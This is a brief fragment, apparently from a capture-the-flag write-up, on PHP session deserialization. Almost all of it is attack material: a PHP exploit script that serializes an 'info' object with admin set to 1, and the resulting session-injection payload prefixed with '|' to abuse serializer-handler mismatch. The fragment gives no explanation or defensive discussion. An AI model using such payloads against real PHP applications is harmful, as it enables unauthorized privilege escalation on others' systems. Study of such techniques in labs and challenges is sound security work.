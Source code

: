 ## PHPsession反序列化
exp:
```PHP
<?php

class info{
    public $admin;
    public $username;
    public $motto;

}

$pop = new info();
$pop->admin = 1;
echo serialize($pop);
```
payload：
```PHP
|O:4:"info":3:{s:5:"admin";i:1;s:8:"username";N;s:5:"motto";N;}
```

